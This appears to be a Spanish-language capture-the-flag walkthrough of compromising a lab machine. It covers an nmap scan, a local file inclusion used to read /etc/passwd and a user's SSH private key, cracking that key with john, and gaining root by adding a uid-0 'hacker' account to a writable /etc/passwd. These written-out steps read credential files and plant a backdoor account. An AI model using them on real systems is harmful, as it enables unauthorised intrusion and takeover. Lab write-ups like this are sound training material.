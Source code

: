 ## Reconocimiento
Procedimiento rutinario con nmap.
``` bash
nmap -p- -sS -sCV --min-rate 5000 -n -Pn 192.168.0.108 > scan
```

![](_anexos_/Screenshot%20from%202023-12-23%2021-38-52.png)
- SSH en el puerto 22. En su versión 7.9 que no tiene alguna vulnerabilidad grave.
- Un pagina montada con apache en el puerto 80.
- Se realizaron pruebas de fuzzing con `gobuster` pero no se encontro nada relevante

Accedemos a la pagina en cuestión
![](_anexos_/Screenshot%20from%202023-12-23%2021-41-28.png)
Si accedemos al `modo inspeccionar` y filtramos por `php` o `?`. Podemos ver que tenemos una url interesante.
![](_anexos_/Screenshot%20from%202023-12-23%2021-45-59.png)

## Local File Inclusion (LFI)
Si cambiamos `Doctors.html` por `/etc/passwd` podemos ver que nos lista el fichero. 

![](_anexos_/Screenshot%20from%202023-12-23%2021-50-04.png)
- Tenemos tres usuarios al parecer
	- root
	- admin
	- www-data

Buscamos el `id_rsa` del usuario `admin`

![](_anexos_/Screenshot%20from%202023-12-23%2021-51-56.png)

Usamos [ssh2john](https://github.com/openwall/john/blob/bleeding-jumbo/run/ssh2john.py)para convertir el `id_rsa` en un hash que podemos intentar crackear con [john](https://github.com/openwall/john).
``` bash
./ssh2john.ph id_rsa > id_rsa.txt

# ejecutamos john
john id_rsa.txt --wordlist=/usr/share/dict/rockyou.txt
```

![](_anexos_/Screenshot%20from%202023-12-23%2023-57-33.png)

Nos conectamos por ssh con el usuario `admin`, haciendo uso del `id_rsa` y la contraseña `unicorn`.
``` bash
ssh -i id_rsa admin@192.168.0.108
```
![](_anexos_/Screenshot%20from%202023-12-24%2000-01-57.png)

## Privsec
Algunas consideraciones al tratar de buscar alguna vulnerabilidad...
- No tenemos _sudo_ instalado, por ende no podemos usar `sudo -l`
- Si bien se ejecuta un versión 4.19 del kernel que tiene algunas vulnerabilidades. No reunimos con los requisitos necesarios para explotarlos.
- A nivel de SUID, ejecutando `find / -perm -4000 2>/dev/null` no encontramos algun ejecutable que nos permita realizar privesc. 

El paso necesario para poder escalar privilegios es la de ver en que archivos tenemos permisos de escritura, en este caso estamos buscando en todos los directorios excepto `var, proc, sys o home` directorios.

``` bash
$ find / -writable -type f 2>/dev/null | grep -viE "var|proc|sys|home"
/etc/passwd
```

Como podemos ver en este [artículo](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-etc-passwd) de HackTricks, podemos abusar del permiso de escritura sobre el archivo que esta en `/etc/passwd`.
``` bash
openssl passwd -1 -salt hacker hacker

# Otras opciones disponibles
mkpasswd -m SHA-512 hacker
python2 -c 'import crypt; print crypt.crypt("hacker", "$6$salt")'
```

``` bash 
# Despues agregamos el usuario hacker junto con la contraseñá generada en /etc/passwd
...
hacker:<GENERATED_PASSWORD_HERE>:0:0:Hacker:/root:/bin/bash
...
```
Ingresamos como root a traves del usuario `hacker` con su contraseña `hacker`
``` bash
su hacker
```

![](_anexos_/Screenshot%20from%202023-12-24%2001-43-10.png)

### Resources
- https://reddyyz.medium.com/cracking-ssh-rsa-private-keys-ead3c126df6b
- https://github.com/openwall/john
- https://steflan-security.com/linux-tty-shell-cheat-sheet/
- https://robertholdsworthsecurity.medium.com/how-to-crack-an-ssh-private-key-passphrase-ab7dd1583178
